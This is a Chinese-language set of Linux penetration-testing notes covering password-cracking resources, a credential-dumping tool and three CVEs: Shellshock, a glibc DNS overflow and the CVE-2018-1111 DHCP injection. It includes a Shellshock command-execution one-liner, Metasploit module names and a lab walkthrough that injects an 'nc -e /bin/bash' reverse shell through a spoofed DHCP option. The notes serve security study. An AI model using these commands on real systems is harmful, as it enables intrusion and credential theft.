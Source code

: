 # Linux 渗透

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**渗透框架**
- [d4rk007/RedGhost](https://github.com/d4rk007/RedGhost) - linux 的后渗透框架,可用于权限维持、提权等操作，半图形化.实际测试感觉不太行。

---

# 口令破解

**文章**
- [How to Crack Shadow Hashes After Getting Root on a Linux System](https://null-byte.wonderhowto.com/how-to/crack-shadow-hashes-after-getting-root-linux-system-0186386/)
- [Linux下的密码Hash——加密方式与破解方法的技术整理](https://3gstudent.github.io/3gstudent.github.io/Linux%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81Hash-%E5%8A%A0%E5%AF%86%E6%96%B9%E5%BC%8F%E4%B8%8E%E7%A0%B4%E8%A7%A3%E6%96%B9%E6%B3%95%E7%9A%84%E6%8A%80%E6%9C%AF%E6%95%B4%E7%90%86/)

**工具**
- [huntergregal/mimipenguin](https://github.com/huntergregal/mimipenguin) - 从当前 Linux 用户转储登录密码的工具

---

# 漏洞利用
## 提权

关于 linux 更多提权内容,见笔记 [提权](./提权.md#linux) linux 提权部分

---

## 远程代码执行

**CVE-2014-6271** Bash 远程代码执行漏洞"破壳"
- 简介

    GNU Bash 是美国软件开发者布莱恩-福克斯（Brian J. Fox）为 GNU 计划而编写的一个 Shell（命令语言解释器），它运行于类 Unix 操作系统中（Linux 系统的默认 Shell），并能够从标准输入设备或文件中读取、执行命令，同时也结合了一部分 ksh 和 csh 的特点。

    GNU Bash 4.3 及之前版本中存在安全漏洞，该漏洞源于程序没有正确处理环境变量值内的函数定义。远程攻击者可借助特制的环境变量利用该漏洞执行任意代码。以下产品和模块可能会被利用：OpenSSH sshd 中的 ForceCommand 功能，Apache HTTP Server 中的 mod_cgi 和 mod_cgid 模块，DHCP客户端等。（说明：该漏洞的补丁并没有完全修复该问题，CNNVD-201409-956 补充了不完整修复后仍存在的问题）

- 文章
    - [Bash远程代码执行漏洞"破壳"(CVE-2014-6271)分析](https://www.antiy.com/response/CVE-2014-6271.html)

- POC | Payload | exp
    - [scottjpack/shellshock_scanner](https://github.com/scottjpack/shellshock_scanner)
    - [Bash - 'Shellshock' Environment Variables Command Injection](https://www.exploit-db.com/exploits/34766)

- 本地验证方法

    `env x='() { :;}; echo Vulnerable CVE-2014-6271 ' bash -c "echo test"`

    执行命令后,如果显示 Vulnerable CVE-2014-6271,证系统存在漏洞,可改变 echo Vulnerable CVE-2014-6271 为任意命令进行执行.

- MSF 模块
    ```bash
    use exploit/linux/http/ipfire_bashbug_exec
    use exploit/multi/http/cups_bash_env_exec
    use exploit/unix/dhcp/bash_environment
    ```

**CVE-2015-7547**
- 简介

    Google 安全团队发现 glibc 存在的溢出漏洞。glibc 的 DNS 客户端解析器中存在基于栈的缓冲区溢出漏洞。当软件用到 getaddrinfo 库函数（处理名字到地址以及服务到端口的转换）时，攻击者便可借助特制的域名、DNS 服务器或中间人攻击利用该漏洞，控制软件，并试图控制整个系统。

    攻击者使用恶意的 DNS 域名服务器创建类似于 evildomain.com 的域名，然后向目标用户发送带有指向该域名的链接的邮件，一旦用户点击该链接，客户端或浏览器将会开始查找 evildomain.com，并最终得到恶意服务器的 buffer-busting 响应。该域名被嵌入服务器日志中，一旦解析就会触发远程代码执行，SSH 客户端也会因此被控制。或者，位于目标用户网络中的中间人攻击者可以篡改 DNS 响应，向恶意代码中动态注入负载。

    简单的说，只要控制了 linux 服务器所访问的 DNS 服务器，或者对 linux 服务器的流量进行劫持；那么，在 Linux 服务器做 DNS 请求时，恶意 DNS 服务器就可以对 linux 服务器进行远程溢出攻击，获取服务器权限。

- 文章
    - [CVE-2015-7547 - sevck](https://www.cnblogs.com/sevck/p/5225639.html)
    - [CVE-2015-7547的漏洞分析](http://blog.nsfocus.net/cve-2015-7547-vulnerability-analysis/)

- POC | Payload | exp
    - [fjserna/CVE-2015-7547](https://github.com/fjserna/CVE-2015-7547)

**CVE-2018-1111** DHCP 客户端脚本代码执行漏洞
- 简介

    Fedora 是由 Fedora 项目社区开发、美国红帽（Red Hat）公司赞助的一套基于 Linux 的操作系统。DHCP packages 是其中的一个动态主机配置协议软件包。

    Fedora 28 及之前版本、Red Hat Enterprise Linux 6 和 7 中的 DHCP 包的 NetworkManager integration 脚本存在命令注入漏洞。本地攻击者可通过伪造 DHCP 响应利用该漏洞在系统以 root 权限执行任意命令。

- 文章
    - [CVE-2018-1111 复现环境搭建与 dhcp 命令注入](https://www.freebuf.com/articles/web/191884.html)
    - [DHCP 客户端脚本代码执行漏洞分析 (CVE-2018-1111) ](https://xz.aliyun.com/t/2455)

- POC | Payload | exp
    - [knqyf263/CVE-2018-1111](https://github.com/knqyf263/CVE-2018-1111)
    - [kkirsche/CVE-2018-1111](https://github.com/kkirsche/CVE-2018-1111)

- 本地利用方法
    ```
    attacker: kali linux 2018 x64 192.168.71.5
    victim: Centos 7 x64 192.168.71.10
    ```
    ```vim
    vim dnsmasq.conf
    bind-interfaces
    interface=eth0
    except-interface=lo
    dhcp-range=192.168.71.10,192.168.71.20,12h
    dhcp-option=3,192.168.71.5
    dhcp-option=6,192.168.71.5
    log-queries
    log-facility=/var/log/dnsmasq.log
    ```
    ```
    dnsmasq -dC dnsmasq.conf --dhcp-option="252,malayke'&nc -e /bin/bash192.168.71.5 6666 #"
    nc -l -p 6666 -v
    ```
    重启 CentOS 的网络服务,然后 shell 就反弹回来了
